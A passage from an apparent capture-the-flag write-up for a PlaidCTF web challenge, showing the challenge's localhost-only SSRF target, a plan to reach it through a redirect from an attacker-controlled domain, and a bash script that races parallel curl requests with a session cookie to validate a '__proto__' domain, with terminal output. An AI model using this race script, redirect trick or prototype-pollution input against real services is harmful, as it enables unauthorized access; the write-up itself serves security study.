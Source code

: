 So we can now insert any domain as a validated one.  We now have one last hurdle...

## localhost:1337 (redirect)

The last hurdle to get past is the check for `localhost` on the SSRF target:

```js
// Let's just call a spade a spade, shall we?
const ssrfTarget = express();
ssrfTarget.get("/flag.txt", (req, res) => {
    if (req.hostname !== "localhost") {
        return res.status(401).send(">:(");
    }

    res.send(FLAG);
});
ssrfTarget.listen(1337, "127.0.0.1");
```

We can't just add `localhost:1337` as the domain and scrape it as there's no `/flag.txt` route that would get refetched.  However, we should be able to add our own domain, let the search console scrape it, and then have it serve up a redirect to `localhost:1337` for the refetch.

## Piecing It All Together

### Race Condition

We now have all of the ingredients, so let's code up something to attempt the race condition.  A little testing shows that lots of requests via `curl` works, so we'll start with that.  We'll need a session cookie from the app, the registered domain(via the UI or curl), and the url.

```bash
#!/bin/bash

for i in {0..10}
do
  curl "$1/site/validate" \
    -H 'Content-Type: application/json' \
    -H "Cookie: user_token=$2" \
    --data-raw "{\"domain\":\"$3\"}" &
done
```

Lets try it out:

```shell
╭─zoey@parrot ~/sec/plaidctf/wowza ‹main*› 
╰─$ ./validate-race.sh http://wowza.pwni.ng:6284 a05c8268-8f89-45b3-8095-4736f583a762 __proto__
{"error":"Something went wrong"}{"error":"Something went wrong"}{"error":"Something went wrong"}{"error":"Something went wrong"}{"error":"Something went wrong"}{"error":"Something went wrong"}{"error":"Something went wrong"}{"error":"Something went wrong"}{"error":"Something went wrong"}{"error":"Something went wrong"}
╭─zoey@parrot ~/sec/plaidctf/wowza ‹main*› 
╰─$ curl 'http://wowza.pwni.ng:6284/site/' -H 'Cookie: user_token=a05c8268-8f89-45b3-8095-4736f583a762'
[{"domain":"__proto__","pending":false},{"domain":"__proto__","pending":true,"validationCode":"VALID"}]
```
